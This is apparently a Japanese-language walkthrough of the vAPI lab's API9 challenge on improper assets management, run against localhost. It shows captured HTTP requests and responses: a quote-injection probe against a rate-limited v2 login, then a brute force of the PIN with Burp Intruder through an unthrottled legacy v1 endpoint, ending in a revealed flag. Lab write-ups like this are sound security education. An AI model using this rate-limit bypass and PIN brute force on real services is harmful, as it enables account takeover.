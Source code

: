 ## API9 Improper Assets Management
下位互換性の担保のためなどでAPIは古いバージョンのエンドポイントを残していることがある。  
古いバージョンには脆弱な問題が残っているかもしれない。

vAPIではご丁寧にv2がリリースされた体になっている。
> Hey Good News!!!!! We just launched our v2 API :)

v2エンドポイントのログインAPIを試行する。
```http
POST /vapi/api9/v2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: f8f6172e-7f25-41c0-80a2-2d1fed0a3b39
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 56
Cookie: PHPSESSID=1d146ce6c7cda9305cf082f33a671aeb

{
    "username":"richardbranson",
    "pin":"****"
}
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 14:33:05 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 14:33:05 GMT
X-RateLimit-Limit: 5
X-RateLimit-Remaining: 4

```

先ほどのAPI8のようなSQLインジェクションは効かなそう。  
また、レスポンスヘッダを見るとどうやら回数制限があるらしい。
```http
POST /vapi/api9/v2/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: f8f6172e-7f25-41c0-80a2-2d1fed0a3b39
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 57
Cookie: PHPSESSID=1d146ce6c7cda9305cf082f33a671aeb

{
    "username":"richardbranson",
    "pin":"****'"
}
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 14:33:47 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 14:33:47 GMT
X-RateLimit-Limit: 5
X-RateLimit-Remaining: 3

```

API9は、古いエンドポイントがある可能性を示唆している。
`v2`を`v1`に変更するとエンドポイントが生きていて、回数制限もないのでIntruderで一通りのPINを試し、正解を見つける。
```http
POST /vapi/api9/v1/user/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 0630f3c8-f29c-4646-911d-70b7048e960b
Host: localhost
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 56
Cookie: PHPSESSID=1d146ce6c7cda9305cf082f33a671aeb

{
    "username":"richardbranson",
    "pin":"1655"
}
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sat, 05 Mar 2022 14:49:36 GMT
Connection: close
X-Powered-By: PHP/7.4.7
Cache-Control: no-cache, private
Date: Sat, 05 Mar 2022 14:49:36 GMT
Content-Type: application/json

{"id":1,"username":"richardbranson","accbalance":"flag{api9_81e306bdd20a7734e244}"}
```
